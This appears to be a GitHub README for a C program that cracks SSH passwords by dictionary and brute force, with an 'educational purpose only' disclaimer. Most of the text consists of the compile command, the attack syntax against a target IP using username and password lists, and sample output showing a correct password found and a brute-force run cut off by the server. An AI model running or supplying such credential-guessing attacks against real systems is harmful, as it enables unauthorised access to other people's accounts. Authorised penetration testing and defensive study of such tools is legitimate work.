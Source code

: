 # SSH Password Cracker (C - Implementation)
  **[ For Educational Purpose ONLY ]**

Crack SSH Password using Dictionary and Brute Force Method

## Introduction
Secure Shell (SSH) is a cryptographic network protocol for operating network services securely over an unsecured network. The best known example application is for remote login to computer systems by users.

## Usage
```c
$ gcc -o sshbrute_b sshbrute_b.c -lssh
$
$ ./sshbrute_b 
Usage: ./sshbrute -t target -uf ufile [-pf pfile] [-po 22 (default)] [-b]

$
$ ./sshbrute_b -t <ip_address> -uf username.txt -pf password.txt

[*] User: username
[+] Password: toor -> Incorrect Password
[+] Password: root -> Incorrect Password
[+] Password: password -> Incorrect Password
[+] Password: correctpwd -> Connected


[*] Username: username
[*] Password: correctpwd

$
$ ./sshbrute_b -t <ip_address> -uf username.txt -b

[*] User: username
Enter the lenght of password: 8
[+] Password: aaaaaaaa -> Incorrect Password
[+] Password: aaaaaaab -> Incorrect Password
[+] Password: aaaaaaac -> Incorrect Password
[+] Password: aaaaaaad -> Incorrect Password
[+] Password: aaaaaaae -> Incorrect Password
[+] Password: aaaaaaaf -> 
Error authenticating with password: Received SSH_MSG_DISCONNECT: 33554432:Too many authentication failures

$
```


## Contribute
Feel free to contribute. Please follow 80 character constraint.

